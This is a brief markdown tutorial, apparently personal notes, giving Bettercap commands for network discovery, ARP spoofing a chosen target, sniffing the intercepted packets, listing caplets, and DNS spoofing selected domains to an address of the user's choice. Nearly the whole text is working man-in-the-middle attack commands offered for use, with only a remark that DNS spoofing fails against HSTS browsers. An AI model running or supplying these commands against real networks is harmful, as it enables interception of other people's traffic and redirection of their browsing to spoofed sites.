 # Bettercap Tutorial

## <ins>commands</ins>

1) run the tool  
```
bettercap -iface <my_interface>
```

2) discover devices on your network  
first we need to enable probe
```
net.probe on
```
after that you can run  
```
net.show
```
3) arpspoof with bettercap  
```
set arp.spoof.fullduplex true
set arp.spoof.targets <target ip> 
arp.spoof on
```
now you can use sniffer to see packets, i am using the bettercap one  
```
set net.sniff.local true
net.sniff on
```
4) list caplets  
```
caplets.show
```
to run caplet just write its name.  

5) dns spoof using bettercap
### <ins>you have to arp-spoof before doing this, and does not work on browsers using hsts</ins>
```
set dns.spoof.address <ip_to_point_to>
set dns.spoof.all true
set dns.spoof.domains <domains_name_to_spoof>
```
(example dns.spoof.domains google.com, *.google.com --> * for sub domains)
```
dns.spoof on
```
